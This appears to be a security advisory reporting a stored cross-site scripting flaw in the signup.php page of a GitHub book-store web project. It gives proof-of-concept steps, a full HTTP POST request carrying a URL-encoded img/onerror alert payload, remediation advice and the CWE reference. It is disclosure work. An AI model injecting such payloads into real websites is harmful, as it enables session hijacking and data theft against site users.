 # keerti1924 / Online-Book-Store-Website - signup.php  Stored XSS

## Vendor Homepage:
[Online-Book-Store-Website](https://github.com/keerti1924/Online-Book-Store-Website)

## Impact
The 'signup.php' script in keerti1924's Online-Book-Store-Website is susceptible to Stored Cross-Site Scripting (XSS) attacks. This vulnerability allows attackers to inject malicious scripts into the application, potentially compromising the security and integrity of user data. Exploiting this flaw, an attacker could craft a payload, such as an image tag with an 'onerror' attribute containing JavaScript code, to execute arbitrary commands within the context of other users' browsers. This could lead to various malicious activities, including session hijacking, cookie theft, and the unauthorized access or manipulation of sensitive information.

## Proof of Concept
Step 1: Create a new account on the website.\
Step 2: Set the name parameter with the following payload: %3e%3cimg%20src%3dx%20onerror%3dalert('NoChizPlz')%3e.\
Step 3: Submit the registration form with the crafted payload.
Step 4: Upon successful login, an alert with the message 'NoChizPlz' will pop up, indicating successful execution of the XSS payload.

## HTTP Request Example
```http request
POST /signup.php HTTP/2
Host: [REDACTED]
Cookie: PHPSESSID=[REDACTED]
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

name=%3e%3cimg%20src%3dx%20onerror%3dalert('NoChizPlz')%3e&email=nochizplz3@nochizplz.com&password=Pa%24%24w0rd%21&password2=Pa%24%24w0rd%21&user_type=user&signup=
```

## Proof with screenshot
![Screenshot](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/keerti1924%20Online-Book-Store-Website/StoredXSS%20Signup/Stored%20XSS%20signup.php%20Proof.png?raw=true)

## Remidiation
To address this vulnerability, developers should implement proper input validation and output encoding techniques to sanitize user-supplied data and prevent XSS attacks. Specifically, all user inputs, including form fields like the 'name' parameter in the signup form, should be validated and sanitized before being processed or stored in the database. Additionally, implementing a Content Security Policy (CSP) and regularly updating security libraries can help mitigate the risk of XSS vulnerabilities by restricting the execution of untrusted scripts and preventing unauthorized access to sensitive data.

## CWE
[CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
